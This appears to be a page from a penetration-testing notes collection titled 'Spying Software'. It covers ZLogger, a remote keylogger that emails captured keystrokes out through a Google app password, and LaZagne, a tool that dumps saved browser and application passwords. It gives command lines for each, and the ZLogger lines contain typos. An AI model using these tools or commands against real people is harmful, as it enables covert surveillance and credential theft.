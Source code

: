 # Spying Software

## Zlogger

* Remote persistent keylogger for **Windows** and **Linux**.
* Before start go to your google account and go to the google sign in section and click on app passwords, generate an app password.
* Copy that password to auth with the program.

### Usage



{% tabs %}
{% tab title="Windows" %}
zlogger -i 60 --windows -e 'test@email' -p 'password' -o \<output\_filename>'
{% endtab %}

{% tab title="Linux" %}
zlogger -i 60 --linux -e -e 'test@email' -p 'password -o \<output\_filename>
{% endtab %}
{% endtabs %}

{% embed url="https://github.com/z00z/ZLogger" %}

## LaZagne

* The **LaZagne project** is an open-source application used to **retrieve lots of passwords** stored on a local computer.
* Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.).
* This tool has been developed for the purpose of finding these passwords for the most commonly used software.
* **LaZagne** have's different modules to target programs, browsers, etc.

<figure><img src="https://user-images.githubusercontent.com/10668373/43320585-3e34c124-91a9-11e8-9ebc-d8eabafd8ac5.png" alt=""><figcaption></figcaption></figure>

### Usage

```java
./LaZagne.exe browsers -oN <output_file_with_recovered_passwords>
```

* Here we are getting all saved passwords on the browsers using the browser module.
* There are a lot more modules to try, you can see it in the **LaZagne** repository.

{% embed url="https://github.com/AlessandroZ/LaZagne" %}
